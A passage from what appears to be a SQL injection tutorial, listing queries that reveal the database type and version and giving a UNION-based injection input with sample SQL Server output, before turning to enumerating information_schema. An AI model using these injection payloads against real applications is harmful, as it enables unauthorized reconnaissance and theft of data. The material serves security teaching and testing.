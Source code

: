 You can potentially identify both the database type and version by injecting provider-specific queries to see if one works

The following are some queries to determine the database version for some popular database types:

|Database type|Query|
|---|---|
|Microsoft, MySQL|`SELECT @@version`|
|Oracle|`SELECT * FROM v$version`|
|PostgreSQL|`SELECT version()`|

For example, you could use a `UNION` attack with the following input `' UNION SELECT @@version--`. Which might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:
```txt
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor
```
## Enumerating Database using Information_Schema Database
The `information_schema` database contains metadata about the database and tables present on the server, making it a crucial step for attackers to view or enumerate when performing SQL injection vulnerabilities.